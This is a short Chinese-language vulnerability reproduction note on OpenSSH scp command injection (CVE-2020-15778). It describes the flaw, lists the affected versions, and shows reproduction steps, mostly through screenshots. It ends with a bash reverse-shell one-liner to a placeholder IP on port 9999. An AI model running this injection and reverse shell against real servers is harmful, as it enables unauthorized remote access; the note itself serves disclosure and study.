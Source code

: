 # OpenSSH 命令注入漏洞 CVE-2020-15778

# OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

```
OpenSSH <= 8.3p1
```

## 漏洞复现

可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![image-20220209125535740](/images/202202091255788.png)

执行命令 ping dnslog



![image-20220209125550216](/images/202202091255296.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

